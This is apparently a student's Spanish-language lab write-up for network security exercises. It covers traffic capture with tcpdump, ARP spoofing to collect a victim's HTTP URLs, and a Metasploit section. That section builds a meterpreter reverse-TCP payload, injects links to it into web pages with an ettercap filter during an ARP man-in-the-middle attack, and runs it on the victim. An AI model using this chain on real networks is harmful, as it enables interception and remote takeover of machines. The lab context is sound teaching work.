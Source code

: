 Usamos el script (xd)

# E - Trafico en Ens33

> `tcpdump -i ens33 -s 65535 -w my.pcap

# F - Spoffing

Mediante `arpspoofing` entre una máquina objeto (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.

- Utilizamos el archivo `pcap` obtenido de la máquina de nuestro compañero.

Se puede ver en _Statistics > HTTP > Requests

# G - MetaSploit


1. Instalamos *Metasplot* siguiente [este tutorial](https://computingforgeeks.com/install-metasploit-framework-on-debian/).
2. Creamos payload:
> `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.55 LPORT=5555 -f elf > payload.bin`

3. Lo mejor es subir el payload a tu servidor de apache, mueve el archivo con
> `cp payload.bin /var/www/html/`

4. Creamos `ett.filter`:
> `nano ett.filter`
```bash
if (ip.proto == TCP && tcp.src == 80) {
	replace("a href", "a href=\"http://10.11.49.55/payload.bin\">");
	msg("replaced href.\n");
}
```
5. Configuramos:
> `etterfilter ett.filter -o ig.ef`

6. Activamos el ip_forwarding
> `echo 1 > /proc/sys/net/ipv4/ip_forward`

7. Encendemos el ettercap con el filtro:
> `ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.49.54/ //10.11.48.1/`

8. Llegados a este punto, desde el cliente vemos la pagina y nos descargamos el virus:
>  `curl example.com

> [!Note]
> Podemos hacer tambien un `curl`, y descargar el link del payload con `wget`.

9. Damos permisos de ejecucion 
> `chmod +x payload.bin`


10. Ejecutamos el virus antes de hacer el exploit
> `./payload.bin`

